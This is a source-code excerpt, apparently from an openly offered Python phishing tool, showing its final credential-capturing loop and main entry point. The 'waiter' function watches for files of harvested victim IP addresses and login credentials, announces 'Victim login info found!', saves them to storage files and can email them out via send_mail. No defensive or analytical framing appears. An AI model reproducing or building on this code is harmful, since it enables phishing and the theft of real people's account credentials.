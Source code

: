 # Last function capturing credentials
def waiter():
    global is_mail_ok
    delete(ip_file, cred_file)
    sprint(f"\n{info}{blue}Waiting for login info....{cyan}Press {red}Ctrl+C{cyan} to exit")
    try:
        while True:
            if isfile(ip_file):
                print(f"\n\n{success}{bgreen}Victim IP found!\n\007")
                show_file_data(ip_file)
                ipdata = cat(ip_file)
                append(ipdata, main_ip)
                # Just add the ip
                append(ipdata.split("\n")[0], saved_file)
                print(f"\n{info2}Saved in {main_ip}")
                print(f"\n{info}{blue}Waiting for next.....{cyan}Press {red}Ctrl+C{cyan} to exit")
                remove(ip_file)
            if isfile(cred_file):
                print(f"\n\n{success}{bgreen}Victim login info found!\n\007")
                show_file_data(cred_file)
                userdata = cat(cred_file)
                if is_mail_ok:
                    send_mail(userdata)
                append(userdata, main_cred)
                append(userdata, saved_file)
                print(f"\n{info2}Saved in {main_cred}")
                print(f"\n{info}{blue}Waiting for next.....{cyan}Press {red}Ctrl+C{cyan} to exit")
                remove(cred_file)
            sleep(0.75)
    except KeyboardInterrupt:
        pexit()

def main():
    try:
        main_menu()
    except KeyboardInterrupt:
        pexit()
    except Exception as e:
        exception_handler(e)

if __name__ == '__main__':
    main()
            
# If this code helped you, consider staring 
